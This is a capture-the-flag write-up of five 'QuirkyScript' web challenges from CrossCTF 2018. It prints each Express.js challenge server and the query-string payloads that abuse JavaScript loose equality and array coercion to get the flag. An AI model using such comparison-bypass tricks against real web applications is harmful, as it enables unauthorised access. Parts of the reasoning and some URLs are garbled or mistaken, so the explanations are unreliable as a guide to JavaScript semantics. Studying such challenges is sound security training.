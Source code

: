 # Crossctf 2018 Qualifier Writeups (WIP)

Credits to my teammates: https://github.com/tankeehock and https://github.com/tohzijie

## Web
QruirkyScript 1 - 5 were do-able by referncing the truthy table from: https://developer.mozilla.org/en-US/docs/Web/JavaScript/Equality_comparisons_and_sameness

### QuirkyScript 1
```
var flag = require("./flag.js");
var express = require('express')
var app = express()

app.get('/flag', function (req, res) {
    if (req.query.first) {
        if (req.query.first.length == 8 && req.query.first == ",,,,,,," ) {
            res.send(flag.flag);
            return;
        }
    }
    res.send("Try to solve this.");
});

app.listen(31337)
```

The following condition must be met: Length = 8 and variable must be ',,,,,,,'. To achieve this, an empty array of size 8 will match the length 8, and the empty commas in the array will be treated as a string of commas when the following is passed in: [,,,,,,,]

Therefore, to achieve this, the following get request will fulfill the conditions: ```http://target/flag?first=&first=&first=&first=&first=&first=&first=&first=&first=```

CrossCTF{C0mm4s_4ll_th3_w4y_t0_th3_fl4g}



### QuirkyScript 2
```
var flag = require("./flag.js");
var express = require('express')
var app = express()
app.get('/flag', function(req, res) {
    if (req.query.second) {
        if (req.query.second != "1" && req.query.second.length == 10 && req.query.second == true) {
            res.send(flag.flag);
            return;
        }
    }
    res.send("Try to solve this.");
});
app.listen(31337)
```

The following condition must be met: Length = 10 and variable must be TRUE. To achieve this, we need to abuse the weak comparator. In javascript, 1 = true, and 0000000001 == true. (Got this from multiple testing of how values are compared. Read the above link for more information on how == comapres values)

Therefore, to achieve this, the following get request will fulfill the conditions: ```http://target/flag?second?=0000000001```

CrossCTF{M4ny_w4ys_t0_mak3_4_numb3r}



### QuirkyScript 3 (to be updated)
```
var flag = require("./flag.js");
var express = require('express')
var app = express()
app.get('/flag', function(req, res) {
    if (req.query.third) {
        if (Array.isArray(req.query.third)) {
            third = req.query.third;
            third_sorted = req.query.third.sort();
            if (Number.parseInt(third[0]) > Number.parseInt(third[1]) && third_sorted[0] == third[0] && third_sorted[1] == third[1]) {
                res.send(flag.flag);
                return;
            }
        }
    }
    res.send("Try to solve this.");
});
app.listen(31337)
```
The following condition must be met after the array is sorted. The first element in the array (after converting into an Integer) must be larger than the second element (after converstion) and the indexes of the element in the original array before and after sorting must be the same. We understand that the browser will take in our GET request as a string and the sorting will be done based on the first character of the string.

To achieve the conditions, we look into the ascii table to find the hexadecimal representation of each number and chose a relatively large number which has hexadecimal starting with 0. We chose 0xA (Decimal 10). ```http://target/flag?third?=0xA&third=1```

CrossCTF{th4t_r0ck3t_1s_hug3}



### QuirkyScript 4
```
var flag = require("./flag.js");
var express = require('express')
var app = express()
app.get('/flag', function(req, res) {
    if (req.query.fourth) {
        if (req.query.fourth == 1 && req.query.fourth.indexOf("1") == -1) {
            res.send(flag.flag);
            return;
        }
    }
    res.send("Try to solve this.");
});
app.listen(31337)
```

The following condition must be met: variable = 1 and "1" is not the variable. WUT?!
To achieve this, we need to abuse the weak comparator. In javascript, [0x01] == 1 (WOW), and suprisingly, if a=[0x01], a.indexOf("1") = -1. SO CONDITION IS MET! Additionally, I remembered from one of my web class that we can past in an array for GET request using the [].

Therefore, to achieve this, the following get request will fulfill the conditions: ```http://ctf.pwn.sg:8084/flag?fourth[]=0x01```

CrossCTF{1m_g0ing_hungry}



### QuirkyScript 5
```
var flag = require("./flag.js");
var express = require('express')
var app = express()
app.get('/flag', function(req, res) {
    var re = new RegExp('^I_AM_ELEET_HAX0R$', 'g');
    if (re.test(req.query.fifth)) {
        if (req.query.fifth === req.query.six && !re.test(req.query.six)) {
            res.send(flag.flag);
        }
    }
    res.send("Try to solve this.");
});
app.listen(31337)
```

For this, me and my teammates were not able to explain why our GET request worked. But it seems like passing ```I_AM_ELEET_HAX0R``` to variables firth and six fulfills the if condition.

Therefore, to achieve this, the following get request will fulfill the conditions: ```http://ctf.pwn.sg:8085/flag?fifth=I_AM_ELEET_HAX0R&six=I_AM_ELEET_HAX0R```

CrossCTF{1_am_n1k0las_ray_zhizihizhao}